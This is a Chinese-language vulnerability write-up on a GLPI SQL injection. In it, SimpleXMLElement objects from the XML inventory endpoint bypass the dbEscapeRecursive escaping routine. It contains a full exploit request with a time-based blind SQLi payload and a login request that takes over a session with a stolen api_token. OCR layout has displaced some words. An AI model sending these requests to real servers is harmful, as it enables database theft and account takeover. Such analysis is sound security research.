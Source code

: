   
虽然  
JSON_MODE  
only 执行快速  
json_decode  
，但它只能创建string、array、integer  
和  
stdClass  
对象（实际上不具备__toString函数）。但是 会根据用户输入  
XML_MODE  
创建一个对象。  
SimpleXMLElement  
  
```
<?php    publicfunctionhandleXMLRequest($data): bool    {        libxml_use_internal_errors(true);        if (mb_detect_encoding($data, 'UTF-8', true) === false) {            $data = iconv('ISO-8859-1', 'UTF-8', $data);        }        $xml = simplexml_load_string($data, 'SimpleXMLElement', LIBXML_NOCDATA);
```  
  
这是绕过该函数的完美候选  
dbEscapeRecursive  
，因为它是一个可以轻松转换为字符串的对象。  
  
```
php > $xml = simplexml_load_string('<test>a</test>');php > var_dump($xml);object(SimpleXMLElement)#2 (1) {  [0]=>  string(1) "a"}php > var_dump($xml."toString");string(9) "atoString"
```  
  
  
最终请求  
  
为了利用此漏洞，需要精心设计对代理请求端点的 XML 请求，并导致可使用简单的基于时间的攻击进行 SQL 注入。  
  
```
POST/index.php/ajax/ HTTP/1.1Host: glpiUser-Agent: python-requests/2.32.3Content-Type: application/xmlContent-Length: 232<?xml version="1.0" encoding="UTF-8"?>    <xml>    <QUERY>get_params</QUERY>    <deviceid>', IF((1=1),(select sleep(5)),1), 0, 0, 0, 0, 0, 0);#</deviceid>    <content>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</content></xml>
```  
  
  
使用这个简单的请求，服务器会因为1=1条件为真而休眠 5 秒。现在可以使用当前 GLPI 数据库用户的权限从数据库中提取任何数据。  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafB7aENM1sEric3t3XnNPibsBuehm203tAXxfP4wrmXumuibiavCqzM6v3bUHA5PWWZkvvM1nJcJT9cLw/640?wx_fmt=png&from=appmsg "")  
  
请求耗时5秒，SQL查询已正确注入。  
  
需要注意的是，数据库的结构在不同版本之间会有所变化。因此，上述查询中的列数可能会有所不同。  
  
利用数据库读取来绕过身份验证  
  
既然read已经获得了数据库的权限，那么就有多种方法可以获取有效会话。最明显的方法是从数据库中恢复帐户并尝试破解密码。但是，由于密码是使用 存储的bcrypt，因此恢复技术人员或超级管理员帐户的明文可能是一项挑战。  
  
api_token  
  
如果api_token在数据库中设置了帐户的，则可以使用它轻松获取有效会话并通过 API 身份验证方法访问 GLPI 的 GUI。  
  
```
<?phpPOST /glpi/front/login.php HTTP/1.1Host: <redacted>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0Content-Type: application/x-www-form-urlencodedContent-Length: 212Origin: http://<redacted>Connection: keep-aliveReferer: http://<redacted>/glpi/index.phpredirect=&_glpi_csrf_token=<redacted>&field<redacted>=test&field<redacted>=test&auth=local&submit=&user_token=<api_token>
```  
  